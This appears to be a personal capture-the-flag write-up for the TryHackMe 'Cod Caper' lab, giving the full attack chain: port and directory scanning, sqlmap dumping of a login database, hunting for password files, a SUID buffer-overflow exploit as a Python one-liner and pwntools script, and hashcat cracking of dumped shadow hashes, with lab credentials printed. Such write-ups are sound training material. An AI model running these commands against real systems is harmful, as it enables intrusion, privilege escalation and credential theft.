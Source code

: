 # Matheus Jesus 12-04-2020

## Try Hack Me - The Cod Caper (https://tryhackme.com/room/thecodcaper)

### IP 10.10.109.156

#### Recon

nmap -sC -sV -oN nmap_initial 10.10.109.156

SSH and WebServer found
port 22 port 80

#### Web Enumeration

gobuster dir -u http://10.10.109.156:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

Found route
/administrator.php (Status: 200)

#### SQLMap for trying to find the administrator user / hash

sqlmap -u 10.10.109.156/administrator.php --forms

database is a MySQL.

sqlmap -u 10.10.109.156/administrator.php --dump --forms

copied user.csv file to local.

found user pingudad:secretpass

#### Access administrator

It is possible to run commands now

cat /etc/passwd to see if pingu user still exists

find / -user pingu to see everything owned by pingu

found id_rsa -> /home/pingu/.ssh/id_rsa
USELESS!!!!!!

find / -name pass

found /var/hidden/pass
pingu:pinguapingu

#### Remote Acess

ssh pingu@10.10.109.56

scp /opt/linEnum/linEnum.sh pingu@10.10.109.56:/dev/shm
chmod +x linEnum.sh
./linEnum.sh

#### SUID

/opt/secret/root

##### Manually

gdb /opt/secret/root
disassemble shell

shell memory address 0x080484cb

invert bytes to little indian -> call root.
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root

##### Scripting

```python
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

in both ways we get papa's hash

papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::

hashcat -m 1800 -a 0 -o found1.txt  $6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck /usr/share/wordlists/rockyou.txt --force

$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:love2fish
